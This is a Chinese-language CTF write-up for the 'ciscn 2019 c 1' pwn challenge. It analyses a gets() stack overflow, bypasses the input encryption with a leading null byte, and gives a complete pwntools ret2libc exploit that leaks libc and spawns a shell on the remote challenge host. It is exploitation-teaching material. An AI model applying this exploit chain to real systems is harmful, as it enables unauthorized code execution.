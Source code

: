 ```yaml
---
author: 
  name: Zephyr
title: ciscn 2019 c 1
date: 2022-3-19 21:02:02
permalink: /pages/2e9547494524d18c
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# ciscn 2019 c 1

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec ciscn_2019_c_1
[*] '/root/ciscn_2019_c_1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数未发现明显漏洞，漏洞出现在输入1后进入的encrypt函数中，该函数如下

```c
int encrypt()
{
    size_t v0;  // rbx
    char s[48]; // [rsp+0h] [rbp-50h]
    __int16 v3; // [rsp+30h] [rbp-20h]
    memset(s, 0, sizeof(s));
    v3 = 0;
    puts("Input your Plaintext to be encrypted");
    gets(s);
    while (1)
    {
        v0 = (unsigned int)x;
        if (v0 >= strlen(s))
            break;
        if (s[x] <= 96 || s[x] > 122)
        {
            if (s[x] <= 64 || s[x] > 90)
            {
                if (s[x] > 47 && s[x] <= 57)
                    s[x] ^= 0xFu;
            }
            else
            {
                s[x] ^= 0xEu;
            }
        }
        else
        {
            s[x] ^= 0xDu;
        }
        ++x;
    }
    puts("Ciphertext");
    return puts(s);
}
```

## 思路分析

1. 目前信息
   - 栈上变量s处可写入任意长度数据
   - 本题无后门函数
1. 问题
   - s变量处写入的数据将会被后续代码加密导致无法使用
3. 解决思路
   - 加密部分使用了strlen() 函数该函数从字符串的开头位置依次向后计数，直到遇见`\0`，然后返回计时器的值。最终统计的字符串长度不包括`\0`，这里可以构造一个特殊的首位是`\0`的payload提前break掉，从而绕过加密
   - 因为本题无可用后门函数，所以需要先泄露libc的版本和函数地址，接着再通过泄漏出的地址构造rop链劫持控制流以获得shell

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_c_1/ciscn_2019_c_1'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 28284)
elf = ELF(pwnfile)
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi_ret = 0x400c83
encrypt_addr = elf.symbols['encrypt']
padding = 0x50+8
io.recvuntil('Input your choice!\n')
io.sendline(str(1))
payload = flat(['\0', 'a'*(padding-1), pop_rdi_ret,puts_got, puts_plt, encrypt_addr])
# 首位\0绕过加密
io.sendlineafter('\n', payload)
leak_puts_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
# 泄漏puts的地址
print("leak puts addr:{0}".format(hex(leak_puts_addr)))
libc = LibcSearcher('puts', leak_puts_addr)
# 泄漏libc版本
libcbase = leak_puts_addr-libc.dump('puts')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
ret = 0x4006b9
payload = flat(['\0', 'a'*(padding-1), ret,pop_rdi_ret, bin_sh_addr, system_addr])
io.sendlineafter('encrypted\n', payload)
io.recv()
io.interactive()
```